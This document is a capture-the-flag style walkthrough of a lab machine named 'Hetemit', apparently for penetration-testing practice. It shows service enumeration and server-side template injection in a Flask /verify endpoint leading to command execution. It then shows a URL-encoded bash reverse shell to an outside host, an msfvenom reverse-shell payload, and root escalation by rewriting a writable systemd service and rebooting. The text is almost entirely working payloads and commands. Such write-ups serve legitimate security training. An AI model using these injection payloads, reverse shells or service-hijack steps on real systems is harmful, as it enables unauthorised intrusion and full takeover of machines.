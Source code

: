 # Hetemit

### Enumeration

```
50000/tcp open  http        Werkzeug httpd 1.0.1 (Python 3.6.8)
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```

```
http://192.168.181.117:50000/verify

In the response:
{code}
---
POST /verify HTTP/1.1
Host: 192.168.181.117:50000
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

code={5*5}

In the response:
{25}
---
SSTI to RCE
---
POST /verify HTTP/1.1
code={os.popen("id").read()}

In the response:
{'uid=1000(cmeeks) gid=1000(cmeeks) groups=1000(cmeeks)\n'}
```

### Initial Access

```
POST /verify HTTP/1.1
...
code={os.popen("%2f%62%69%6e%2f%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%34%39%2e%31%37%39%2f%38%30%20%30%3e%26%31").read()}

#URL Encoded
code={os.popen("/bin/bash -i >& /dev/tcp/192.168.49.179/80 0>&1").read()}
```

### PrivEsc

```
[cmeeks@hetemit ~]$ sudo -l

User cmeeks may run the following commands on hetemit:
    (root) NOPASSWD: /sbin/halt, /sbin/reboot, /sbin/poweroff

You have write privileges over /etc/systemd/system/pythonapp.service
```

The most important parameters here are :&#x20;

• User : The user that the service will run as.&#x20;

• Execstart : It specifies the command that will run when the service starts.

Now we want to get shell as root. There are many ways to do so with systemd services.

```
[cmeeks@hetemit ~]$ cat /etc/systemd/system/pythonapp.service
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/cmeeks/restjson_hetemit
ExecStart=flask run -h 0.0.0.0 -p 50000
TimeoutSec=30
RestartSec=15s
User=cmeeks
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

```
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.49.179 LPORT=80 -f elf -o reverse.elf
```

```
[cmeeks@hetemit ~]$ echo "
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/cmeeks/restjson_hetemit
ExecStart=/tmp/reverse.elf
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
" > /etc/systemd/system/pythonapp.service

[cmeeks@hetemit ~]$ sudo reboot --reboot -f
```
